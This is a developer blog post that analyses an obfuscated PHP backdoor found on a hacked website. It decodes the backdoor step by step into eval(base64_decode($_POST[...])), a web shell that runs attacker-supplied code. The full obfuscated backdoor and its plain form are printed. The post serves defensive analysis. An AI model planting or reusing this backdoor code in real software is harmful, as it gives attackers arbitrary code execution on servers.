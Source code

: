 ```yaml
---
layout: post
title: Anatomy of a PHP Hack
tags:
- PHP
- Security
---
```

It's hard to come up with a title for this - but - basically I found some rogue code the other day that I thought was pretty interesting. I was fixing a "hacked" website when I came across the source of the symptoms of the hack.  One file had the following code in it:

```php?start_inline=1
$zgjv56 = "o_esb4da6ctp" ; 
$fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
$gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ; 
if( isset( ${ $gfc4 }['n89024b' ] )){
    eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;
}
```

This obfuscated code is doing something bad, but we don't know what at first glance.  Obviously, the solution is to remove it - but - aren't you a little curious what it was doing?  Let's take a look.

First, the `$zgjv56` variable has unique letters and numbers and an underscore.  It looks like `$fzba02` is created by picking out various offsets (remember, you can access a character of a PHP string in the same manner as you might query an array index).   It's weird that it's calling `strtolower()` though - because all the values are lower.  So, let's figure out what the value of `$fzba02` actually is.

> Important note: When you're testing PHP code that you're unsure of, run it in a sandboxed virtual machine that has no access to the internet or your local device.

```
php > $zgjv56 = "o_esb4da6ctp";
php > $fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
php > echo $fzba02;
base64_decode
```

Ah - so the variable is the value `base64_decode` - nice.  

> Why random variable names and why `base64_decode`? The random variable names make it harder to understand what the code is doing. It's like the difference between using `$counter` and `$c` - one is more obvious than the other.  The base 64 encoding is done most likely for a weak obfuscation attempt again.

The next line creates another variable based off of our initial string - let's check it out:

```
php > $gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ;
php > echo $gfc4;
_POST
```

So, this variable is targeting the magic/global PHP variable `$_POST` - ok - I'm starting to get a picture of what we may figure out next.  There is something that will be base 64 encoded and posted to this script.

This PHP line gives us the indicator of what wakes up the script:

```php?start_inline=1
if( isset( ${ $gfc4 }['n89024b' ] )){

// translates to:
if (isset($_POST['n89024b'])) {
```

Again, a random variable/string in `n89024b` - but this says - if there is a post request to this page using the variable `n89024b` - we should do something.  That variable name is very likely not to be picked by the main application - so it's safe for this script to accept/intercept those values and do it's task.

```php?start_inline=1
eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;

// translates to
eval(base64_decode($_POST['n89024b']));
```

Whenever you see `eval()` you should be afraid - but what is this really doing?  Its basically taking anything that is posted in a base 64 encoding with a specific variable and executing it directly in the context of this script.  This obfuscated script indicates that the user of this basically had free reign to run anything on the server at any time.  The easy fix is removing this code - the hard part is figuring out what / if they used this for other nefarious purposes on your server.
